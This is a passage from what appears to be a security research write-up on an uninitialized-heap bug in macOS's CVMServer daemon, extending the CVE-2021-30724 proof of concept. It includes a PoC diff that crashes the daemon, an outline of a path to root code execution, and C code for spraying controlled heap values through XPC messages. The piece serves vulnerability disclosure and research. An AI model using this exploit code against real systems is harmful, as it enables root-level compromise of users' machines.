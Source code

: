 Here, [3] and [4] are all loaded from an uninitialized heap chunk. So the attacker can de-allocate arbitrary memory pages in the CVMServer process with `munmap` by controlling the uninitialized values.

Usually, the uninitialized values in heap chunks can be controlled by allocating (`malloc`) a controlled string of the same size and then freeing it (`free`) in advance.

## Exploitation

To demonstrate the vulnerability,
using [the PoC code of CVE-2021-30724](https://gist.github.com/jhftss/1bdb0f8340bfd56f7f645c080e094a8b), change the number of `source` from 1 to 2. Executing the PoC multiple times will crash CVMServer due to the uninitialized value of `mappedLength[1]`.

```diff
-    xpc_dictionary_set_value(req, "source", xpc_array_create(&xarr, 1));
+    xpc_object_t array[] = { xarr, xarr };
+    xpc_dictionary_set_value(req, "source", xpc_array_create(array, 2));
     xpc_object_t res = xpc_connection_send_message_with_reply_sync(conn, req);
     printf("response: %s\n", xpc_copy_description(res)); 
```

The rest of the article will explain how to gain code execution in root privilege through this vulnerability.

1. Controlling uninitialized values on the heap
2. Inferring the daemon's memory layout using binary search
3. Manipulating dyld private memory and calling arbitrary functions

### 1. Controlling uninitialized values on the heap

To control the uninitialized value of the heap chunk, we create two values with the same key in the XPC dictionary object.


```c
void spray_value(xpc_object_t msg, void *payload, size_t size) {
  xpc_object_t subdict = xpc_dictionary_create(NULL, NULL, 0);
  for (int i = 0; i < 0x500; i++) {
    xpc_dictionary_set_value(
      subdict,
      format("key%d", i),
      xpc_data_create(payload, size));
  }

  xpc_dictionary_set_value(msg, "free", subdict);
  xpc_dictionary_set_value(msg, "fref", xpc_bool_create(true));

  xpc_dictionary_apply(msg, ^bool(const char *key, xpc_object_t) {
    if (!memcmp(key, "fref", 4))
      memcpy((void *)key, "free", 4);
    return true;
  });
}
```
